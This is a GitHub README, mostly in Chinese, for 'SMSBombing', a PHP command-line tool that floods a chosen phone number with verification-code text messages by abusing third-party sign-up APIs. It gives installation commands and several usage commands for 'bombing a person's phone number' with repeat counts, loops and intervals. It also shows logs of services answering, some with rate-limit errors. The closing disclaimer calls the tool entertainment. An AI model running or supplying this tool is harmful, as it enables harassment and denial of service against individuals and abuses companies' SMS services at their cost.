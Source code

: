 <div align="center">
    
<h1>SMSBombing</h1>

[![Auth](https://img.shields.io/badge/Auth-xiaoxuan6-ff69b4?logo=github)](https://github.com/xiaoxuan6)
[![GitHub Pull Requests](https://img.shields.io/github/stars/xiaoxuan6/SMSBombing?logo=Undertale)](https://github.com/xiaoxuan6/SMSBombing/stargazers)
[![Github latest release](https://img.shields.io/github/v/release/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/releases)
[![HitCount](https://views.whatilearened.today/views/github/xiaoxuan6/SMSBombing.svg)](https://github.com/xiaoxuan6/SMSBombing)
[![GitHub license](https://img.shields.io/github/license/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/blob/v2/LICENSE)
[![](https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-xiaoxuan6‘s-d7b1bf?logo=Blogger)](https://xiaoxuan6.vercel.app/)

</div>

> [!NOTE]  
> 基础框架已提供，如需添加/修改更多 `api` 接口，直接修改 `api.json` 文件，切勿重复提交相关 issue [#14](https://github.com/xiaoxuan6/SMSBombing/issues/14)、[#11](https://github.com/xiaoxuan6/SMSBombing/issues/11)、[#10](https://github.com/xiaoxuan6/SMSBombing/issues/10)

> [!WARNING]
> 版本 `v2.1.0` 之后默认使用 `url` 获取 `api.json`, 如果需要使用指定 `api.json` 请使用版本 `v2.1.1` 或更高版本（不支持 docker）。
>
> EX:
>
> ```
> sms-bombing 176xxxxxxxx -f ./api.json
> ```

# Requirement

* PHP >= 8.1

# Install

## 1、直接下载 [sms-bombing](./builds/sms-bombing) 可执行文件

```shell
curl 'https://mirror.ghproxy.com/https://raw.githubusercontent.com/xiaoxuan6/SMSBombing/v2/builds/sms-bombing' -o sms-bombing --progress-bar
chmod +x sms-bombing
```

## 2、通过 Composer 安装

```bash
composer global require james.xue/sms-bombing
```

## 3、Docker

[sms-bombing](./README-docker.md)

# Use

普通轰炸（默认 10 次）

```bash
sms-bombing 136xxxxxxxx
```

全量轰炸

```bash
sms-bombing 136xxxxxxxx --num=all
```

启动 5 次,轰炸一个人的手机号(136xxxxxx)

```bash
sms-bombing 136xxxxxxxx --num=5
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次，循环间隔30秒

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2 -i 30
```

# 轰炸效果

```bash
sms-bombing 136xxxxxxxx -l 2
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：1 请求结果：
索引：7 请求结果：0
索引：6 请求结果：success
索引：8 请求结果：
索引：9 请求结果：1
索引：5 请求结果：{"code":0,"msg":"success"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：7 请求结果：0
索引：6 请求结果：success
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
索引：8 请求结果：
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：6 请求结果：success
索引：7 请求结果：0
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
```

# Stargazers over time
[![Stargazers over time](https://starchart.cc/xiaoxuan6/SMSBombing.svg?variant=adaptive)](https://starchart.cc/xiaoxuan6/SMSBombing)

# 免责声明

若使用者滥用本项目,本人 无需承担 任何法律责任. 本程序仅供娱乐,源码全部开源,禁止滥用 和二次 贩卖盈利. 禁止用于商业用途.

